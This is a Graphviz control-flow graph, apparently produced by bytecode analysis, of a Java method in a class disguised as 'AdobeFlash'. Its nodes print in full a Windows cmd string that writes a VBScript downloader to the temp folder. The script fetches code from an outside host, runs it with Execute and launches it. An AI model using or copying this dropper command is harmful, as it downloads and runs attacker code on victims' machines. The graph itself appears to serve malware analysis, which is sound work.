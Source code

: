 digraph "" {
    "r0 := @this: AdobeFlash"
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "r0 := @this: AdobeFlash"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "push \"cmd /c echo.getURL \\\"hf\\\", \\\"fh\\\", \\\"http://www.controltv.net/obf888575.txt\\\">%temp%\\lala.vbs&echo.Sub getURL(hf,fh,url)>>%temp%\\lala.vbs&echo.Set objHTTP = CreateObject(\\\"MSXML2.XMLHTTP\\\")>>%temp%\\lala.vbs&echo.Call objHTTP.Open(\\\"GET\\\", url, False,hf,fh)>>%temp%\\lala.vbs&echo.objHTTP.Send>>%temp%\\lala.vbs&echo.Execute(objHTTP.ResponseText)>>%temp%\\lala.vbs&echo.End Sub>>%temp%\\lala.vbs&start %temp%\\lala.vbs\""
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"push \"cmd /c echo.getURL \\\"hf\\\", \\\"fh\\\", \\\"http://www.controltv.net/obf888575.txt\\\">%temp%\\lala.vbs&echo.Sub getURL(hf,fh,url)>>%temp%\\lala.vbs&echo.Set objHTTP = CreateObject(\\\"MSXML2.XMLHTTP\\\")>>%temp%\\lala.vbs&echo.Call objHTTP.Open(\\\"GET\\\", url, False,hf,fh)>>%temp%\\lala.vbs&echo.objHTTP.Send>>%temp%\\lala.vbs&echo.Execute(objHTTP.ResponseText)>>%temp%\\lala.vbs&echo.End Sub>>%temp%\\lala.vbs&start %temp%\\lala.vbs\"";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "push \"cmd /c echo.getURL \\\"hf\\\", \\\"fh\\\", \\\"http://www.controltv.net/obf888575.txt\\\">%temp%\\lala.vbs&echo.Sub getURL(hf,fh,url)>>%temp%\\lala.vbs&echo.Set objHTTP = CreateObject(\\\"MSXML2.XMLHTTP\\\")>>%temp%\\lala.vbs&echo.Call objHTTP.Open(\\\"GET\\\", url, False,hf,fh)>>%temp%\\lala.vbs&echo.objHTTP.Send>>%temp%\\lala.vbs&echo.Execute(objHTTP.ResponseText)>>%temp%\\lala.vbs&echo.End Sub>>%temp%\\lala.vbs&start %temp%\\lala.vbs\""->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"store.r r0";
}
